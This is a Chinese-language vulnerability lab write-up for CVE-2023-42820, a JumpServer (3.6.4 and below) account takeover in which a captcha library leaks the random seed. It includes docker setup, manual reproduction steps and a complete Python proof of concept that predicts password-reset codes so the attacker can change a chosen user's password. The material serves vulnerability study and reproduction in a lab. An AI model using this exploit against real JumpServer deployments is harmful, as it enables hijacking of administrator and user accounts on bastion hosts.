

# JumpServer 随机数种子泄露导致账户劫持漏洞 CVE-2023-42820

## 漏洞描述

JumpServer是一个开源堡垒机系统。在其3.6.4及以下版本中，存在一处账户接管漏洞。攻击者通过第三方库[django-simple-captcha](https://github.com/mbi/django-simple-captcha)泄露的随机数种子推算出找回密码时的用户Token，最终修改用户密码。

参考链接：

- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-7prv-g565-82qp
- https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
- https://www.leavesongs.com/PENETRATION/jumpserver-sep-2023-multiple-vulnerabilities-go-through.html 

## 环境搭建

Vulhub启动环境前，修改[config.env](config.env)中`DOMAINS`的值为你的IP和端口，如`DOMAINS=your-ip:8080`。

执行如下命令启动一个JumpServer 3.6.3 的服务器：

```
docker compose up -d
```

启动服务需要等待一段时间，之后访问`http://your-ip:8080`即可查看到JumpServer的登录页面。我们使用`admin`作为账号及密码即可登录，第一次登录管理员账号需要修改密码。



## 漏洞复现

使用Vulhub半自动化脚本复现漏洞。由于是半自动化，严格按照如下步骤方可正确复现。

首先，在浏览器第一个Tab中打开忘记密码页面：`http://your-ip:8080/core/auth/password/forget/previewing/`，此时页面上将有一个验证码。

- 如果验证码中包含数字10，则请刷新验证码，因为我们的脚本暂时无法处理数字10
- 如果验证码中不包含数字10，则右键菜单中将该验证码在新Tab下打开

新Tab中验证码的URL类似于`http://your-ip:8080/core/auth/captcha/image/87b2723d404657c2294abfab908975ebb9da5468/`，其中包含该验证码的key（一串sha1 hash值），也就是后面伪随机数使用的种子，记录下这个值作为**seed**。

返回第一个Tab，**刷新页面**。刷新页面的目的是，不使用包含“种子”的验证码，因为这个种子将在后续步骤中使用到。

刷新页面后正确填写用户名和验证码后提交，跳转到验证码验证页面。此时这个页面的URL类似于`http://your-ip:8080/core/auth/password/forgot/?token=sceOx7yWuAH9wWcuzc0nMQmLBzEPNhkhuTfl`，其中包含一个随机的token值，记录下这个值作为**token**。

执行脚本：

```
python poc.py -t http://your-ip:8080 --email admin@whoami.com --seed [seed] --token [token]
```

这个脚本需要传入4个参数：

- `-t` 指定目标JumpServer服务器地址
- `--email` 指定待劫持用户的邮箱地址
- `--seed` 前面记下来的随机数种子（**seed**）
- `--token` 前面记下来的token值（**token**）

> ~~环境启动失败（mariadb redis版本问题，修改版本启动后服务自动退出）。原docker-compose.yml中版本为：mariadb:10.11.5、redis:6.2.13~~
>
> ~~待复现，以下为Vulhub截图。~~

脚本执行后，将输出预测的code值：


回到浏览器中，输入该code提交，即可来到修改新密码页面，修改密码即可。


## 漏洞POC

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)
```

